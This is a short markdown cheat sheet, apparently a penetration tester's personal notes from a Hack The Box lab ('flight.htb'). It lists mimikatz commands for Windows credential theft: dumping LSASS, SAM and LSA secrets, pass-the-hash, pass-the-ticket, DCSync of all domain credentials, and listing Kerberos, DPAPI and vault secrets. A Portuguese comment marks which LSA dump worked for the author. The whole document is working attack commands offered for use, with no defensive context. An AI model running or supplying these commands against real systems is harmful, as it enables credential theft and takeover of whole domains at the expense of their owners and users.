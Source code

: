 mimikatz
========================

    setspn -T flight.htb -Q */*

## Dump LSASS:

    mimikatz privilege::debug
    mimikatz token::elevate
    mimikatz sekurlsa::logonpasswords

## (Over) Pass The Hash

    mimikatz privilege::debug
    mimikatz sekurlsa::pth /user:<UserName> /ntlm:<> /domain:<DomainFQDN>

## List all available kerberos tickets in memory

    mimikatz sekurlsa::tickets

## Dump local Terminal Services credentials

    mimikatz sekurlsa::tspkg

## Dump and save LSASS in a file

    mimikatz sekurlsa::minidump c:\temp\lsass.dmp

## List cached MasterKeys

    mimikatz sekurlsa::dpapi

## List local Kerberos AES Keys

    mimikatz sekurlsa::ekeys

## Dump SAM Database

    mimikatz lsadump::sam

## Dump SECRETS Database

    mimikatz lsadump::secrets

## Inject and dump the Domain Controller’s Credentials

    mimikatz privilege::debug
    mimikatz token::elevate
    mimikatz lsadump::lsa /inject
    lsadump::lsa /patch # ==> Esse foi o que funcionou bem pra mim.

## Dump the Domain’s Credentials without touching DC’s LSASS and also remotely

    mimikatz lsadump::dcsync /domain:<DomainFQDN> /all

## List and Dump local kerberos credentials

    mimikatz kerberos::list /dump

## Pass The Ticket

    mimikatz kerberos::ptt <PathToKirbiFile>

## List TS/RDP sessions

    mimikatz ts::sessions

## List Vault credentials

    mimikatz vault::list